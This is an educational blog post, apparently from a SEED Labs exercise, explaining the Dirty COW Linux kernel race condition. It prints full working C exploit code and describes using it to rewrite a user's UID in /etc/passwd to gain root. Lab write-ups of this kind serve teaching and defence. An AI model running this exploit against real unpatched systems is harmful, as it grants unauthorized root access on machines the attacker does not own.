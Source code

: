 ```yaml
---
layout: post
title:  "Dirty Cow Vulnerability: An analysis"
date:   2023-01-10 15:49:04 +0200
categories: security
---
```


## This is an analysis of the [Dirty Cow Vulnerability](https://en.wikipedia.org/wiki/Dirty_COW) using a VM provided by [SEED Labs](https://seedsecuritylabs.org/Labs_20.04/Software/Dirty_COW/).

Dirty COW stands for Dirty copy-on-write. I actually found this out while doing my research for this exercise. I've read about the vulnerability previously, but I didn't have hands on experience with it, or understand it in depth. So, I will be trying to do that in this blog post, and hopefully it's simple enough that you understand it too.

The Dirty COW vulnerability is a very interesting case of a race condition vulnerability. It existed in the Linux kernel since 2007 and was discovered in 2016, and because the kernel runs as root, it can be exploited as a priviledge escalation vulnerability. This means attackers can gain root priviledges by exploiting it, from a low-level user.

### What is a race condition? 

A `race condition` can arise in software when a computer program has multiple code paths that are executing concurrently. If the multiple code paths take a different amount of time than expected, they can finish in a different order than expected, which can cause software bugs due to unanticipated behavior.

### Here's how I understood it:

Let's say you have a variable/object/resource `a`:

    a = "DIRTY"

but you also have another variable `b`:

    b = a

Even though these  are two variables here, they both point to the same memory object, since there is no need to take up twice the amount of memory for identical values. The OS will wait until the duplicate is modified, that is when it will allocate seperate memory for the other variable. 

You modify b:

    b += "COW"

At this point, here is what the kernel will do:

1. allocate memory for the new modified variable
2. read the original contents of the object being duplicated
3. perform any required changes to it i.e., append "COW"
4. write modified contents into the newly allocated memory space

The race condition exists between steps 2 and 4, which tricks the memory mapper into writing the modified contents into the original memory space instead of the newly allocated space. This is such that we end up modifying memory belonging to `a` i.e., the original object instead of `b`, even if we only had read-only privileges on `a`. The race condition allows the attacker to bypass these permissions. 

It is obviously more complicated, I'd like to think, but here is a [video](https://www.youtube.com/watch?v=CQcgz43MEZg) that might help you understand.

### Let's get into the lab

I fired up the VM,and of course I was bombarded with alerts to upgrade to a later version. We won't be doing that for now. 

The objective in this lab is to write to a read-only file using the Dirty Cow vulnerability.

I'll start by creating a file as sudo, adding some text to it and modifying the privileges so that I only have read privileges to read the file. 

![dirtycow0](../images/dirtycow/dirtycow0.png)

With a readable file ready, the next step is to edit the exploit. This exploit is made up of three threads: the main thread, the write thread and the madvise thread. The main thread maps our file to memory, finds where the pattern we want to replace is, and then creates two threads to exploit the Dirty COW race condition vulnerability in the OS kernel.

    #include <sys/mman.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <sys/stat.h>
    #include <string.h>

    void *map;
    void *writeThread(void *arg);
    void *madviseThread(void *arg);

    int main(int argc, char *argv[])
    {
        pthread_t pth1,pth2;
        struct stat st;
        int file_size;

        // Open the target file in the read-only mode.
        int f=open("dirtycow", O_RDONLY);

        // Map the file to COW memory using MAP_PRIVATE.
        fstat(f, &st);
        file_size = st.st_size;
        map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

        // Find the position of the target area
        char *position = strstr(map,"cow");                        

        // We have to do the attack using two threads.
        pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
        pthread_create(&pth2, NULL, writeThread, position);             

        // Wait for the threads to finish.
        pthread_join(pth1, NULL);
        pthread_join(pth2, NULL);
        return 0;
    }


![dirtycow1](../images/dirtycow/dirtycow1.png)

![dirtycow2](../images/dirtycow/dirtycow2.png)

So first we are opening our file(note that is is being opened in read-only mode) and using the string function called `strstr` we are searching where `cow` is in the mapped memory, then we start two threads, writeThread and madviseThread.

The job of the writeThread is to replace the `cow` string with `wow`(or whatever we want to write). Since the mapped memory is of copy-on-write type, this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the underlying `dirtycow` file.

    void *writeThread(void *arg)
    {
        char *content= "wow";
        off_t offset = (off_t) arg;

        int f=open("/proc/self/mem", O_RDWR);
        while(1) {
            // Move the file pointer to the corresponding position.
            lseek(f, offset, SEEK_SET);
            // Write to the memory.
            write(f, content, strlen(content));
        }
    }   


![dirtycow3](../images/dirtycow/dirtycow3.png)


The madvise thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory.

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the write operation will always be performed on the private copy, and we will never be able to modify the target file. The only way for the attack to succeed is to perform the madvise() system call while the write() system call is still running. We cannot always achieve that, so we need to try many times. As long as the probability is not extremely low, we have a chance. That is why in the threads, we run the two system calls in an infinite loop.

    void *madviseThread(void *arg)
    {
        int file_size = (int) arg;
        while(1){
            madvise(map, file_size, MADV_DONTNEED);
        }
    }

Okay. Exploit is ready. Let's compile and execute. 

![dirtycow4](../images/dirtycow/dirtycow4.png)

And we managed to write to the file. Now this is a very simple example to prove the concept. We can apply this to write to importantfiles in the Unix OS such as the `passwd` file. This allows us to change the privilieges that a normal user has, and upgrading them to a root user. See below.

We use sudo to create a user.

![dirtycow5](../images/dirtycow/dirtycow5.png)

See the UID is 1001, meaning `elliot` is just a normal user.

![dirtycow6](../images/dirtycow/dirtycow6.png)

We modify our exploit and run.

![dirtycow7](../images/dirtycow/dirtycow7.png)

We managed to replace the `elliot:x:1001` with `elliot:x:0000`, moving elliot into the root group, hence giving him root privileges.

![dirtycow9](../images/dirtycow/dirtycow9.png)

There are a lot of use cases for this. Imagine an attacker modifies only the `1001` UID section to `0000`, making all users root users. Overall, a super simple and easy to understand exploit.

I really enjoyed going in-depth to try and understand this vulnerability. Again, I oversimplified so I can understand it, (and you too)but the kernel has a lot of layers to it.

Cheers!


